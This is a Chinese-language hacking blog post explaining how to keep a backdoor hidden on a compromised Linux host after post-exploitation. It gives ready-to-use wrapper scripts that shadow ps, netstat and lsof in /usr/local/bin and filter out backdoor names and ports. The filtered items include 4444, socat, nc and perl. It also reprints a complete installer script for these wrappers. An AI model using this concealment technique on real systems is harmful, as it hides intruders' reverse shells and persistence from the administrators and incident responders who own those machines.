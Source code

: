 ```yaml
---
layout: post
title: 后门隐藏之进程隐藏技巧（ps、netstat、top、lsof）
date: 2018-10-15 23:30:00
tags: 后门 backdoor 进程
categories: hack
author: PythonPig
---
```

* content
{:toc}

### \#0x00 写在前面
最近工作忙成狗，写些与技术没什么关系的文档，没办法，谁让咱还指着工资吃饭呢。  
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/backdoor.png?raw=true)  

在后渗透过程中对需要长期控制的目标一般会留一个后门，后门的隐蔽性当然值得我们去思考一下，今天记录一下之前用到的一个隐藏后门进程的小技巧。今天讲的不是什么高大上的技术，只是偶尔会用一下的小技巧，当然不是改pid为0，也不是修改系统调用。  




今天说的隐藏进程其实有点不够准确，应该是使命令ps/netstat/top/lsof这几个命令不显示我们的后门进程而已，当然我们也不是替换/劫持这几个命令，只是包装一下这几个命令。  

### \#0x01 PS命令不显示后门进程
其实很简单，我们包装一下ps这个命令，如在ubuntu（Ubuntu 14.04.5）中，ps路径为/bin/ps，如下图

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/which_ps-1.jpeg?raw=true)

我们需要做的就是在创建一个/usr/local/bin/ps文件，写入如下内容  

```
#!/bin/bash
/bin/ps $@ | grep -Ev 'backdoor name|backdoor server address|backdoor server port'
```
赋予执行权限  
chmod +x /usr/local/bin/ps  

执行which ps后的效果  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%90%8E%E9%97%A8%E9%9A%90%E8%97%8F%E4%B9%8B%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F/which_ps-2.jpeg?raw=true)

就是这么简单就搞定了，执行ps的时候就不会有我们的backdoor信息出现了。我们自己使用时，用/bin/ps就OK了。

### \#0x02 netstat、top、lsof
这几个命令同上，很简单，这里不一一介绍了。  

每个命令都手动去改太麻烦，好在有人已经写好了脚本（参见本文引用），一条命令就搞定这几个命令的伪装了（没有支持top命令）……  

### \#0x03 脚本中的语法

参考文献的脚本是这样写的   
```
#!/bin/bash

#ps
#------------------------
touch /usr/local/bin/ps

cat <<EOF >> /usr/local/bin/ps	
#!/bin/bash
/bin/ps \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/ps

#netstat
#------------------------
touch /usr/local/bin/netstat

cat <<EOF >> /usr/local/bin/netstat
#!/bin/bash
/bin/netstat \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/netstat

#lsof
#------------------------
touch /usr/local/bin/lsof

cat <<EOF >> /usr/local/bin/lsof
#!/bin/bash
/usr/bin/lsof \$@ | grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'
EOF

chmod +x /usr/local/bin/lsof
```
其实比较简单，主要有两点需要注意（参见本文引用）   
1、linux shell 的here document 用法 (cat << EOF)，些多行内容到文件  
2、Shell特殊变量：Shell $0, $#, $*, $@, $?, $$和命令行参数  

### \#0x04 参考
* [iamckn/backdoors](https://github.com/iamckn/backdoors)
* [linux shell 的here document 用法 (cat << EOF)](https://my.oschina.net/u/1032146/blog/146941)
* [cat EOF追加与覆盖](http://www.361way.com/cat-eof-cover-append/4298.html)
* [Shell特殊变量：Shell $0, $#, $*, $@, $?, $$和命令行参数](https://blog.csdn.net/u011341352/article/details/53215180)

